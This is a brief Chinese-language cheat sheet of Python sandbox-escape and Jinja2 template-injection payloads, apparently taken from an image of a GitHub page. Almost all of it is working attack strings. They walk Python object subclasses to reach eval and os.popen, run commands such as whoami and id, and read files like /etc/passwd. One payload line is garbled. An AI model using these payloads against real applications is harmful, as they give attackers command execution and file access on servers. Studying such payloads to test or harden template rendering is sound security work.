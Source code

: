 python3:().`__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")`

python2:`().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")`

附上大佬的payload:

```
获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#命令执行
#os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
#eval,impoer等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()

#python3.7
#命令执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()

```
